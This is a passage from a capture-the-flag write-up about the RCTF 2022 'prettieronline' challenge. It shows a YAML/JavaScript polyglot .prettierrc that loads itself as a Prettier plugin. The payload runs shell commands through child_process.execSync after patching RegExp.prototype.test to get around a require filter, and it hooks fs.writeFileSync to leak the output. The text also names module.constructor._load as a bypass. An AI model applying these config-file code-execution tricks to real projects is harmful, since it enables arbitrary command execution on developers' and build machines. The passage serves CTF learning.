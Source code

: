 So what do we need to require? At this point, I thought of the only file we could control: `.prettierrc`, which means that if `.prettierrc` is both a configuration file and a JS file, it will work.

Fortunately, this is easy in YAML:

``` yaml
plugins:
  - ".prettierrc"
abc:
  - console.log(1)
```

`plgusin:` is a tag in JS, `-` is a minus sign, so there is no problem at all. At this point, I thought this question was quite interesting, combining the concept of JS+yaml polyglot with real world prettier as an example.

After you can execute the code, you need to see how to bypass the require restriction. I tried `import()` but it didn't work. Later, I thought that since any JS can be executed arbitrarily, I just need to change it randomly, like this:

``` yaml
plugins:
  - ".prettierrc"
abc:
  - eval("h=RegExp.prototype.test;RegExp.prototype.test=function(v){return v == 'child_process' ? true : h.call(this,v)};f=require('child_process').execSync('/readflag').toString();fs=require('fs');w=fs.writeFileSync;fs.writeFileSync=function(a,b,c){ if(a=='./dist/ret.js'){b=f}; return w.call(fs,a,b,c) }")
```

Readable version:

``` js
h = RegExp.prototype.test;
RegExp.prototype.test = function(v){
 return v == 'child_process' ? true : h.call(this,v)
};

f = require('child_process').execSync('/readflag').toString();

fs = require('fs');
w = fs.writeFileSync;
fs.writeFileSync=function(a,b,c){
  if(a == './dist/ret.js'){
    b = f
  };
  return w.call(fs,a,b,c)
}
```

First, change `RegExp.test` so that you can require anything, and then change the content to flag when `fs.writeFileSync` is called, and finally you can get the flag.

Author's writeup: https://github.com/zsxsoft/my-ctf-challenges/tree/master/rctf2022/prettieronline

It turns out that you don't need to bypass require at all, you can just use `module.constructor._load('child_process')`, because require also calls this _load method inside: https://github.com/nodejs/node/blob/265ea1e74ef429f7c27f05ac4cc9136adf2e8d9b/lib/internal/modules/cjs/loader.js
